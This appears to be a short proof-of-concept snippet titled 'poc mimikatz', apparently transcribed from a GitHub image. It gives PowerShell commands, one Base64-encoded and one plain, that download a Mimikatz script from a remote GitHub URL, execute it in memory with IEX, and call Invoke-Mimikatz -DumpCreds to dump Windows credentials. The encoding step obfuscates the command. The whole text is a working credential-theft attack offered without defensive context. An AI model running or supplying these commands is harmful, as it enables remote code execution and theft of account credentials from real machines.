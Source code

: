 # poc mimikatz 

# converting to Base64 encoded string
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command)) 

# running the encoded command with powershell
powershell.exe -encoded $Encoded

-encoded.bat
powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AYwBoAGEAYwBrAGMAbwAvAHAAbwBjAC8AbQBhAHMAdABlAHIALwBtAGkAbQBpAGsAYQB0AHoALgBwAHMAMQAuAHQAeAB0ACcAKQA7ACAAIAA9ACAASQBuAHYAbwBrAGUALQBNAGkAbQBpAGsAYQB0AHoAIAAtAEQAdQBtAHAAQwByAGUAZABzADsAIAA=


-not encode
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/chackco/poc/master/mimikatz.ps1.txt'); $m = Invoke-Mimikatz -DumpCreds; $m
